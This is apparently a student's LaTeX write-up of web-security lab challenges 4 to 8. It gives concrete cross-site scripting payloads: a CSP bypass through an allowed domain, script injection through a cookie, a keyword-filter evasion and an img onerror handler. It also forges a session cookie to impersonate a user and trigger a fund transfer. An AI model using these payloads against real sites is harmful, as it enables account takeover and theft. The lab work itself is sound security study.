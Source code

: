 \documentclass[11pt]{article}
\begin{document}
\section{Challenge 4}
The content security policy specified in the head of Challenge 4 explicitly allows resources from *.cs.utexas.edu. I created a simple javascript file
\texttt{alert(1);} and hosted it in my public folder. Then in the textbox for Challenge 4 I entered the text
\texttt{<script src="https://www.cs.utexas.edu/~ryanzhou/attacker.js"/>}.

\section{Challenge 5}
The red herring in Challenge 5 is the password field, which is not necessary to show an alert. Instead, I noted that the site would read the
\texttt{bgcolor} property from the stored cookie. I then modified the cookie to contain the string
\texttt{red"><script>alert(1)</script>}.

\section{Challenge 6}
Challenge 6 yet again iterates on the attempted input sanitization in Challenge 2 by also filtering out instances of alert. This is still not enough. To show
an alert, I entered the string \texttt{<sscriptcript>aalertlert(1)</sscriptcript>}.

\section{Challenge 7}
Challenge 7 finally repeatedly iterates over the input until all instances of \texttt{script} are removed. All is not lost however. Instead, I used the
\texttt{onerror} property that certain elements have, for example the \texttt{<img>} tag. I point the image source to some nonexistent image and
set the error handler to \texttt{alert(1);}. The full string is \texttt{<img src="attacker.jpg" onerror="alert(1);">}.

\section{Challenge 8}
There are several steps to Challenge 8. First, we need to impersonate Skip. Then we need to force the give.php file to execute on the parameters we give it. 
First, I used the javascript console to set the cookie: \texttt{document.cookie="PHPSESSID=mag1c_c00k1e"}. I then passed in the recipient 
and amount parameters in the URL:\\
http://18.220.173.25:37800/archive\_40/part8/give.php?amount=51537\&recipient=Hacker.
\end{document}
